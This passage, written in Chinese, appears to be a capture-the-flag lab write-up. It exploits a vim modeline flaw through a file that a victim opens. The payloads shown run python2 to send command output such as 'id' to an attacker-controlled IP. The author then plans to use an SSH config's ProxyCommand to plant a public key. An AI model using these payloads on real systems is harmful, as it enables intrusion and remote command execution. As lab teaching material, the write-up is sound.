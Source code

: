 ```
  sys.exit(main(sys.argv[1:]))
```

kali中测试可以成功，但是利用vim漏洞缺无法成功。再次检查命令时发现使用了`|`，这会影响vim漏洞利用。

之前邮件特意提示有py2，相信是突破点，尝试使用py进行http请求

```
:!python2 -c "import requests;requests.get('http://10.10.16.31/')"||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="
```

测试发现使用python的request库可以连回来！

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01f7b3c6a9b090eebd.png)

使用GET带data参数，可以把回显带回来

```
:!python2 -c "import requests;import os;requests.get('http://10.10.x.x/',data=os.popen('id'))"||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="
```

[![](https://p4.ssl.qhimg.com/t01d9fcdc5d4f01f2e0.png)](https://p4.ssl.qhimg.com/t01d9fcdc5d4f01f2e0.png)

目前已解决命令回显的问题，但仍然无法获取反弹shell。



## SSH config

使用命令执行进行翻垃圾，发现/home/guly/tmp/.config.swp

```
Host *
  User freshness
  ControlMaster auto
  ControlPath /tmp/%r@%h:%p
  ControlPersist 4h
  TCPKeepAlive yes
  ServerAliveInterval 60
```

这是一个OpenSSH的客户侧配置文件，一般存放在home目录下的.ssh目录中。

具体的配置示例可以参考：<br>
cyberciti.biz/faq/linux-unix-reuse-openssh-connection/

这里又需要回顾之前邮件回复的内容

> i’m currently out of the office but will SSH into the box immediately and open your attachment with vim to verify its syntax.if everything is fine, you will find your config file within a few minutes in the /home/shared folder.

管理员会使用ssh登陆box，上述文件应该就是guly切换到freshness用户用的配置文件，并且让freshness到`/home/shared`目录找config文件。

查找ssh config的参数，发现存在一个`ProxyCommand`参数可以执行命令。那么思路很明确了，构造一个恶意的config文件，里面加入写ssh公钥的命令，然后把config文件写入到`/home/shared/`。

